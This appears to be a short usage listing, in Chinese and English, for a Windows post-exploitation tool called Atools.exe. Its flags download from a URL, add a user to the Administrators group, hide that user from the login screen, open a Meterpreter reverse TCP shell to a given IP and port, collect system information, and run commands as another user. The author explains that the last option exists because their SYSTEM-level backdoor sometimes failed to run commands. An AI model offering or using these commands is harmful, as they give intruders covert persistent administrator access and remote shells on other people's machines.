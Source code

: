 Atools.exe -h | help

Atools.exe -d url |下载

Atools.exe -u user pass |添加一个用户并加入到管理员组

Atools.exe -s user | 禁止交互式登陆时在登陆界面隐藏指定用户

Atools.exe -r ip port |windows/meterpreter/reverse_tcp

Atools.exe -i | 系统信息收集

Atools.exe -e username password command > file.txt | 以其他用户权限运行程序
(为什么会有这个，因为有时候我在system权限下运行的后门不知道为什么会无法执行一些系统命令
各种方法都试过了都没用然后在tools看了个小程序可以就改了改加了进来)



